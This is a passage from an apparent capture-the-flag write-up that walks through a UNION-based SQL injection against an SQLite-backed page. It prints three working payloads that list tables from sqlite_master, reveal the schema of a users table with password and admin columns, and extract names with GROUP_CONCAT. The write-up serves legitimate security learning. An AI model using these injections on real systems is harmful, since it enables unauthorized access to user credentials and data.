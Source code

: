 Hence, we'll be using those columns to inject our following SQL commands as their results will be returned on the webpage.

Now let's obtain the names of the tables in the database:

``` 
test' union select tbl_name,NULL,NULL,NULL from sqlite_master where type='table' and tbl_name NOT like 'sqlite_%'--
```

We get a table called **users**:

![screenshot21](../assets/images/madeyes_castle/screenshot21.png)

With the table name, we can obtain the names of the columns in this table:

```
test' UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name='users'--
```

We find out that there are 4 columns: **name**, **password**, **admin** and **notes**

![screenshot22](../assets/images/madeyes_castle/screenshot22.png)

Finally, we can slowly extract all of the data within these columns. For SQLite databases, we can use the `GROUP_CONCAT` function to fit all of the rows of data into one row.

Let's start with the **name** column:

```
test' UNION SELECT GROUP_CONCAT(name),NULL,NULL,NULL FROM users--
```
